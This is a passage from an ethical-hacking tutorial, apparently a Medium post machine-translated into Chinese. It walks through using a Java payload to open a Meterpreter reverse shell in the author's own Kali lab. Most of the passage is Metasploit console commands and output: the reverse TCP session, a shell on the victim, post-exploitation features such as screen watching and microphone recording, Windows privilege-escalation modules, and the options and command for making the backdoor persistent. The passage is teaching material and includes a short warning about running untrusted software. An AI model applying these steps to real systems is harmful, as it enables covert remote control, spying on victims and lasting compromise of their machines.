您应该希望看到" **runme.jar** "正常运行，对吗？

```
kali@kali:~$ **ps aux | grep runme**
kali       63963  0.0  0.0   6112   644 pts/2    S+   22:54   0:00 grep --color=auto runme
```

好像什么都没发生，对吗？还是做到了？

```
kali@kali:~$ **lsof -i :4444**
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ruby    63774 kali    8u  IPv4 170341      0t0  TCP 192.168.1.2:4444->192.168.1.2:56226 (ESTABLISHED)
java    63940 kali    7u  IPv6 170614      0t0  TCP 192.168.1.2:56226->192.168.1.2:4444 (ESTABLISHED)
```

让我们看看 Metasploit 控制台。

```
[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Sending stage (53944 bytes) to 192.168.1.2
**[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.2:56226) at 2020-10-15 22:53:28 +0100**meterpreter >
```

这是疯狂的部分…

```
meterpreter > **shell**
Process 1 created.
Channel 1 created.**ls -la ~/runme.jar**
-rwxr-xr-x 1 kali kali 5307 Oct 15 22:33 /home/kali/runme.jar
```

虽然我看不到提示，但我有一个返回到受害者系统的 shell，并且能够找到“ **runme.jar** ”文件。尝试创建一个文件或目录，您会看到它在受害者系统上创建。

您可以通过按 Ctrl+C 来终止 shell。

```
Terminate channel 1? [y/N]  **y**
meterpreter >
```

您可以“**后台**”您的抄表员会话。

```
meterpreter > **background**
```

您可以显示当前会话，并按如下方式重新访问任何会话。

```
msf5 exploit(multi/handler) > **show sessions**Active sessions
===============Id  Name  Type                    Information  Connection
  --  ----  ----                    -----------  ----------
  1         meterpreter java/linux  kali @ kali  192.168.1.2:4444 -> 192.168.1.2:56226 (192.168.1.2)msf5 exploit(multi/handler) > **sessions -i 1**
[*] Starting interaction with 1...meterpreter >
```

我的意思是，它会让你彻夜难眠，因为你知道攻击者可以在你的系统上使用反向外壳做什么。访问您的网络摄像头、麦克风、查看您的桌面、截图、上传文件、播放音频文件等。所有真正不好的事情，所以这就是为什么它是如此重要，只开放软件，从值得信赖的来源，并确保您的系统是完全最新的，并有一个病毒扫描器。

这里只是几个选项…

```
meterpreter > **help**Stdapi: Networking Commands
===========================Command       Description
    -------       -----------
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    portfwd       Forward a local port to a remote service
    route         View and modify the routing tableStdapi: System Commands
=======================Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getuid        Get the user that the server is running as
    localtime     Displays the target system's local date and time
    pgrep         Filter processes by name
    ps            List running processes
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OSStdapi: User interface Commands
===============================Command       Description
    -------       -----------
    keyevent      Send key events
    mouse         Send mouse events
    screenshare   Watch the remote user's desktop in real time
    screenshot    Grab a screenshot of the interactive desktopStdapi: Webcam Commands
=======================Command       Description
    -------       -----------
    record_mic    Record audio from the default microphone for X secondsStdapi: Audio Output Commands
=============================Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system
```

选项列表将取决于您正在访问的系统。我正在使用我的 Kali Linux 虚拟机，所以网络摄像头选项丢失了，但如果你正在访问一个 Windows 主机，例如，你会看到他们。

该漏洞将以运行它的用户的身份运行。为了完全访问机器，您需要提升您的权限。

例如，如果您的目标是 Windows，您有很多选择…

```
msf5 exploit(multi/handler) > **use post/windows/escalate/**
use post/windows/escalate/droplnk             use post/windows/escalate/golden_ticket       use post/windows/escalate/screen_unlock       
use post/windows/escalate/getsystem           use post/windows/escalate/ms10_073_kbdlayout  use post/windows/escalate/unmarshal_cmd_exec
```

你也可以随时要求受害者获得完全访问权？:S

```
msf5 exploit(multi/handler) > **use exploit/windows/local/ask**
```

对于基于 Linux 的系统来说，似乎没有那么多有趣的选项。如果目标是 Windows 用户，您可以在他们的系统上大展身手。

这些反向外壳并不持久。这意味着如果系统重新启动，它将不再运行，您将需要受害者再次运行它。

```
meterpreter > **run persistence -h**[!] Meterpreter scripts are deprecated. Try exploit/windows/local/persistence.
[!] Example: run exploit/windows/local/persistence OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.OPTIONS:-A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on which the system running Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back
```

根据 Windows 机器上的示例，要使反向 shell 持久化，您可以运行以下命令。

```
meterpreter > **run exploit/windows/local/persistence OPTION=X**
```

为了进一步阅读，看看我写的关于这个话题的 19 个故事。


[迈克尔·惠特尔](https://whittle.medium.com/?source=post_page-----b768dac407a--------------------------------)

## 道德黑客培训课程

[View list](https://whittle.medium.com/list/ethical-hacking-training-course-710769700b83?source=post_page-----b768dac407a--------------------------------)19 stories

# 迈克尔·惠特尔

*   ***如果你喜欢这个，请*** [***跟我上媒***](https://whittle.medium.com/)
*   ***更多有趣的文章，请*** [***关注我的刊物***](https://medium.com/trading-data-analysis)
*   ***有兴趣合作吗？*** [***让我们在 LinkedIn 上连线***](https://www.linkedin.com/in/miwhittle/)
*   ***支持我和其他媒体作者*** [***在此报名***](https://whittle.medium.com/membership)
*   ***请别忘了为文章鼓掌:)←谢谢！***